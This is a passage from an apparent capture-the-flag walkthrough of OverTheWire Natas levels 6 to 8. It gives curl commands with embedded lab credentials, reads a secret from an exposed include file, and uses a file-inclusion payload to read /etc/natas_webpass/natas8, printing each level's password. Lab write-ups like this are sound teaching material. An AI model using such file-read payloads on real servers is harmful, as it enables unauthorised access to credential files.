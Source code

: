 			</form>
			<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		...
	5. not much to work with here, let's check that index-source.html
	  Visit: http://natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1@natas6.natas.labs.overthewire.org/index-source.html
	  	...
	  	<div id="content">
	  	<?
	  		include "includes/secret.inc";
	  	    if(array_key_exists("submit", $_POST)) {
	  	        if($secret == $_POST['secret']) {
		  	        print "Access granted. The password for natas7 is <censored>";
		  	    } else {
		  	        print "Wrong secret";
		  	    }
	  	    }
	  	?>
	  	<form method=post>
		  	Input secret: <input name=secret><br>
		  	<input type=submit name=submit>
	  	</form>
	  	<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
	  	...
	6. $ curl http://natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1@natas6.natas.labs.overthewire.org/includes/secret.inc
		<?
		$secret = "FOEIUWGHFEEUHOFUOIU";
		?>
	7. $ curl -d "secret=FOEIUWGHFEEUHOFUOIU&submit=" http://natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1@natas6.natas.labs.overthewire.org/
		...
		Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
		...
natas7:
	1. Visit http://natas7.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
	4. $ curl http://natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9@natas7.natas.labs.overthewire.org
		...
		<div id="content">
		<a href="index.php?page=home">Home</a>
		<a href="index.php?page=about">About</a>
		<br>
		<br>
		<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
		</div>
		...
	5. $ curl "http://natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9@natas7.natas.labs.overthewire.org?page=/etc/natas_webpass/natas8"
		...
		DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
		...
natas8:
	1. Visit http://natas8.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe"
	4. $ curl http://natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe@natas8.natas.labs.overthewire.org/index-source.html
		...
		<div id="content">
		<?
		$encodedSecret = "3d3d516343746d4d6d6c315669563362";